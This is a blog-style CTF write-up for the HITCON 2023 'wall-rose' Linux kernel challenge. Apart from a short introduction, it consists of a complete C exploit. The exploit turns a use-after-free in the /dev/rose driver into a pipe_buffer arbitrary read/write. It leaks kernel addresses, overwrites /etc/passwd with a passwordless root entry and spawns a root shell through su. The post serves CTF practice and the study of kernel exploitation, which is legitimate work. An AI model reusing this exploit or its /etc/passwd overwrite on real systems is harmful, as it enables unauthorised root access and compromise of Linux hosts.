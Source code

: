 ```yaml
---
title: "pipe_buffer AAR/AAW: wall-rose (HITCON 2023)"
date: 2024-09-29 13:21:33
tags: 
layout: post
---
```

# 0x00. Prologue

This is a challenge in HITCON 2023, a simple UAF challenge. It mentions `KASLR-FG` so I used to data-flow attack.

The attachment is from this [repo][1].

# 0x01. Challenge

This challenge is very simple and it provides a primitive that enables you UAF-Free a point. Considering there is no `kamlloc-cg` and there is `KASLR-FG`, I used dataflow attack method attacking `/etc/passwd` by `pipe_buffer` AAR/AAW, which I introduced in this [article][2].

It's not a complex challenge so I just leave my exp here. If you are interested at `pipe_buffer` AAR/AAW, please check [this article][3]. 

# 0x02. Exploitation
```c
// https://github.com/n132/libx
#include "libx.h"
#define PIPE_BUF_FUNC 0xffffffff82427c08
#define DEBUG 0
int ct= 0;
int uaf_fd[0x100]={};
void uafInit(){
    for(int i = 0 ; i < 0X100 ; i++)
       uaf_fd[i] = open("/dev/rose",2);
}
void uaf(){
    close(uaf_fd[ct++]);
}
void libxInit_CS(){
    pinCPU(0);
    // impLimit();
    hook_segfault();
    initPipeBufferN(pipe_fd,4);
    initSocketArrayN(sk_fd,4);
    success("Libx Inited");
}
int main()
{
    libxInit_CS();
    char * T = malloc(0x10000);
    char buf[0x1000] = {};
    memset(T,'i',0x8000);
    int msgIds[2] = {};
    for(int i =0 ; i < 2; i++)
        msgIds[i] = msgGet();
    msgSpray(0x3d0,0x220,T+0x8000);
    msgSpray(0xd0,0x200,T+0x8000);

    uafInit();
    uaf();
    write(sk_fd[0][1],T+0x6000,0x400-0x140);
    uaf();
    pipeBufferResize(pipe_fd[0][1],0x10);
    read(sk_fd[0][0],buf,0x400-0x140);
    size_t KASLR = *(size_t *)(buf+0x10);
    size_t VMMAP = (*(size_t *)(buf+0))>>28<<28;
    write(sk_fd[2][0],T+0x8000,0x400-0x140);
    uaf();
    msgSend(msgIds[0],0x3d0,T+0x8000);
    msgSpray(0xd0,0x200,T+0x8000);
    msgSend(msgIds[0],0x100-0x30,T+0x8000); // for 0x100 

    read(sk_fd[2][1],buf,0x400-0x140);

    pipeBufferResize(pipe_fd[1][0],0x10); // refill
    
    size_t KHEAP = ((*(size_t *)(buf+0))>>12<<12)+0x10000;
    success(hex(KHEAP));
    int fds[0x200]= {};
    for(int i = 0 ;  i < 0x200 ; i ++)
        fds[i] = open("/etc/passwd",0);
    
    
    size_t PHYSMAP      =  (KHEAP >>28<<28);
    size_t target_page  = VMMAP + ((KHEAP-PHYSMAP)>>12)*0x40;
    uaf();
    size_t bpipe[] = {target_page,0x0000010000000000,KASLR,0x10};
    memcpy(T+0x9000,bpipe,sizeof(bpipe));

    write(sk_fd[2][0],T+0x9000,0x400-0x140);
    memset(buf,0,0x1000);
    read(pipe_fd[1][0],buf,0x100);
    
    unsigned int * ptr = buf+0x74;
    
    *ptr = 0x004f801f;
    size_t bw = write(pipe_fd[1][1],buf,0x100);

    for(int i = 0 ; i < 0x200 ; i++)
            write(fds[i],"root::0:0:root:/root:/bin/sh\n",30);
    system("/bin/su root");

    success("Sleeping...");
    sleep(0x1000);
}
```

# 0x03. Epilogue
- Spent 2 hours practicing `pipe_buffer` AAR/AAW


[1]: https://github.com/wxrdnx/HITCON-2023-Challenges/blob/main/wall-rose/challenge/wall-rose-a10160050459354487c14f76f6bbd783d8d02c91.tgz
[2]: https://n132.github.io/2024/06/28/Castaways.html
[3]: https://www.interruptlabs.co.uk/articles/pipe-buffer